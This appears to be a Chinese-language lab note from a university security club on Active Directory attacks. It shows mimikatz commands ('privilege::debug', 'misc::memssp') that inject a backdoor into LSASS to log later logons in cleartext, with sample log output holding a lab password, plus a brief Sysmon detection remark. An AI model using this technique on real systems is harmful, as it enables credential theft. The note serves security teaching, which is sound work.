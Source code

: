 ```yaml
---
title: NTUSTISC - AD Note - Lab(無法Reboot的時盜取Passwd)
tags: [information security, NTUSTISC, AD]

---
```


# NTUSTISC - AD Note - Lab(無法Reboot的時盜取Passwd)
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
如果遇到不能重開機的狀況，要怎麼前面提到的明文密碼呢?可以利用MEMSSP，它也是mimikatz設計的一個小後門，只要提升debug權限，再注入這個後門，之後等其他人登入到此主機，就可以被這個後門記錄起來
## Lab
### ==無法Reboot的時盜取Passwd==
1. Inject memssp
    記得用系統管理員權限開mimikatz
    ```bash
    mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # misc::memssp
    Injected =)
    ```
2. Relogin
重新登出再登入才會看到
3. Result
    在`C:\Windows\System32\mimilsa.log`
    ```bash
    [00000000:001f7c0f] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f7c0f] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80d1] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80d1] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80e8] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80e8] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc85a] kuma\bear	1qaz@WSX3edc
    [00000000:001fc85a] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    ```
    可以看到這個log file用明文的方式新增了我們剛剛打入的密碼
### ==How to detect it?==
一樣是用Sysmon的Event ID: 11可以知道，但因為之前安裝不成功所以只能Skip，不過原理就是他是去偵測lsass.exe建立mimilsa.log的瞬間